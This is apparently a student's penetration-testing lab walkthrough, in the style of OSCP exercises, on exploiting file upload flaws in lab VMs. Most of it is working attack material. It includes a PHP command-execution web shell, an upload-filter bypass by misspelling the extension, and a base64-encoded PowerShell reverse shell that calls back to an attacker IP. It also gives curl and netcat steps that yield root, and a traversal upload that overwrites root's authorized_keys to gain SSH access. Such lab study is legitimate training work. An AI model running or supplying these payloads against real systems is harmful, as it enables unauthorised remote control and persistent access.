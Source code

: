 
# Using Executable Files


1. Follow the steps above on VM #1 and exploit the file upload vulnerability. The flag is located in the **C:\xampp\passwords.txt** file as a password for the _mountainadmin_ user.$

- Use upload to send simple_backdoor.pHP to site (php misspelling to get around upload filter mechanism)
```php
<?php
if(isset($_REQUEST['cmd'])){
	echo "<pre>";
	$cmd = ($_REQUEST['cmd']);
	system($cmd);
	echo "</pre>";
	die;
}
?>
```

- Craft PowerShell one-liner using **pwsh** for a PS terminal in Kali
```powershell
# Don't forget to replace IP &/or port!!
PS> $Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'


PS> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

PS> $EncodedText =[Convert]::ToBase64String($Bytes)

PS> $EncodedText
```

- Copy results of $EncodedText and tack on as *cmd* parameter using **curl**
```bash
# Start nc listener in another tab
nc -nlvp 4444
# Abuse file upload
curl http://mountaindesserts.com/meteor/uploads/simple_backdoor.pHP?cmd=powershell%20-enc%20JABjAG....ACkA==
# In tab w/ listener, after connection.  NOTE Windows \
type ..\..\..\passwords.txt
```


> Answer:  OS{250ced38486095fb0e4de2c5f191e087}



2. The target VM #2 is running an instance of _TinyFileManager_. Disable Burp before you start to avoid issues with the web application. Log in to the web application at **hxxp://192.168.50.16/index.php** with the user **admin** and password **admin@123**. Find a way to get code execution by using an uploaded web shell. Display the contents of the **/opt/install.txt** file to get the flag.
   
- Copy the reverse shell **/usr/share/webshells/phpphp-reverse-shell.php** to current working directory and edit file to add your current IP and port of choice
- Login to website and upload the file (don't forget to rename extension to bypass .php filters jic)

![](9.3ex_fileUpload.png)
- In 1 tab start a nc listener on port set in the revshell.pHP file
- In 2nd tab, execute php payload
```bash
# tab 2
curl http://192.168.193.16/revshell.pHP

# tab 1
		listening on [any] 4444 ...
		connect to [192.168.45.202] from (UNKNOWN) [192.168.193.16] 37868
		Linux 2e5d4a2f3769 5.4.0-132-generic #148-Ubuntu SMP Mon Oct 17 16:02:06 UTC 2022 x86_64 Linux
		sh: w: not found
		uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
		/ # /bin/sh: can't access tty; job control turned off
	cat /opt/install.txt
		Hello admin team. We needed to reset all passwords to OS{30412148aa2ec715f1967e4c8d3e528d}.
	/ # exit
```

> Answer:  OS{5ccdfcf0690e61f2d02da2ffd4cff24f}



# Using Non-Executable Files

- Use Burp and test uploading of txt file.  Send POST request to Burp's Repeater, rename uploaded filename, and test whether relative path throws an error
   ![](upload_outsideWebRoot.png)
   
- Replicate a public/ private key
```bash
# here, we'll save key to file: fileupload
ssh-keygen

# result is a private (fileupload) and public (fileupload.pub) key pair

# copy the public key to authorized_keys
cat fileupload.pub > authorized_keys
```

- Select 'authorized_keys' file to upload, Turn on Burp's Intercept, then hit Upload
- Prepend the directory traversal sequence (**../../../../root/.ssh/**) to the filename to attempt to overwrite root's own authorized_keys file
![](file_upload_keys.png)

- Attempt an SSH connection using your private key pair
```bash
# If connected to before, remove the previously saved host key
rm ~/.ssh/known_hosts

# Attempt SSH connection
ssh -i fileupload -p 2222 root@mountaindesserts.com

# Once connected cat file (it'll put you in root's home dir, but best get in habbit of using full path name for full OSCP points)
cat /root/flag.txt
```


> Answer:  OS{9d8bfff79dab8d7fee05e77ae73116ae}